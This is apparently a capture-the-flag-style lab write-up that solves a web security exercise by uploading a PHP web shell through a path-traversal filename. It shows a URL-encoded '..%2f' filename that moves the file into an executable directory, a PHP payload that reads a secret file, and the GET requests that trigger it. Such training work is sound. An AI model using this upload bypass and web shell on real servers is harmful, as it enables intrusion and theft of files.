







# Web shell upload via path traversal
# Objective
 This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter` 

# Solution
## Analysis

### Upload request example

||
|:--:| 
| *Normal upload request* |
||
| *Path to uploaded file* |

### PHP payload upload test
Application prevents from file execution in user-accessible directories.

||
|:--:| 
| *Successful PHP payload upload* |
||
| *PHP payload was not executed* |

## Exploitation
Exploit file was uploaded to `../` directory. In this way attacker can bypass above mentioned restriction and execute payload on the server.

Filename:
```
URL Decoded: filename="../fexploit.php"
URL Encoded: filename="..%2fexploit.php"
```

Payload `exploit.php`:
```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

||
|:--:| 
| *Successful PHP payload upload* |
||
| *Path to uploaded file* |
||
| *Triggering uploaded PHP file* |

`GET` request to both of these destination is able to trigger payload:
```
GET /files/avatars/../exploit.php
GET /files/exploit.php
```